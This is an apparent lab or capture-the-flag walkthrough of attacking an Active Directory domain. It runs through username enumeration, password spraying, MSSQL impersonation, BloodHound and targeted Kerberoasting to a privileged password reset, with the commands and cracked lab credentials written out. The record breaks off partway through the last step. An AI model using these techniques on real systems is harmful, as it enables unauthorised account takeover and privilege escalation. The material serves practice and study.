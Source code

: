 Hmmm... Access is denied
```
To be continued
```


1. http ports 80,5985,8530,47001 --> brute force directory --> no useful info

2. enum4linux-ng --> no useful info

3. kerbrute to brute force username --> get 4 user names: info, administrator, discovery, maintenance --> create user list users.txt

4. password spray --> crackmapexec smb rockyou.txt & other lists take too long but not get valid creds --> try KISS (Keep It Simple Stupid) -u users.txt -p users.txt --> get valid cred info:info

5. smbclient --> get users from \homes --> add to users.txt --> get password_reset.txt from \NETLOGON\temp --> same password_reset.txt under \SYSVOL\hokkaido-aerospace.com\scripts\temp\

6. read password_reset.txt content --> password Start123! --> password spray --> SMB valid cred discovery:Start123!

7. impacket-GetUserSPNs with newly found cred discovery:Start123! --> get two users: discovery, maintenance

8. john to crack maintenance user's hash --> fail

9. impacket-mssqlclient with newly found cred discovery:Start123! --> get in --> get 5 databases, hrappdb looks interesting --> no permission to access hrappdb

10. check if can impersonate any user on MSSQL --> get user: hrappdb-reader
    ```
    SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
    ```
11. login as hrappdb-reader, access database hrappdb, check tables, and read table content --> get username: hrapp-service and password: Untimed$Runny
    ```
    EXECUTE AS LOGIN = 'hrappdb-reader'
    use hrappdb
    SELECT * FROM hrappdb.INFORMATION_SCHEMA.TABLES;
    SELECT * FROM sysauth;
    ```
12. WinRM with newly found cred hrapp-service:Untimed$Runny --> fail

13. generate bloodhound data
    ````
    bloodhound-python -u "hrapp-service" -p 'Untimed$Runny' -d hokkaido-aerospace.com -c all --zip -ns 192.168.207.40
    ````
14. upload to bloodhound --> hrapp-service has GenericWrite Permission To Hazel.Green user which is tier2admin

15. fail to get Hazel.Green hash by
    ```
    certipy-ad shadow auto -u 'hrapp-service'@'hokkaido-aerospace.com' -p 'Untimed$Runny' -account "hazel.green"
    ```
16. try targetKerberoast.py --> get Hazel.Green hash --> crack, password is haze1988
    ```
    python targetedKerberoast.py -v -d 'hokkaido-aerospace.com' -u 'hrapp-service' -p 'Untimed$Runny' --dc-ip 192.168.207.40
    ```
17. rpcclient into machine with Hazel.Green (Tier2Admin) cred and change Tier1Admin user Molly.Smith's password
    ```
    rpcclient -U hokkaido-aerospace.com/'Hazel.Green' 192.168.207.40
    enumdomusers
    enumdomgroups
    querygroupmem 0x475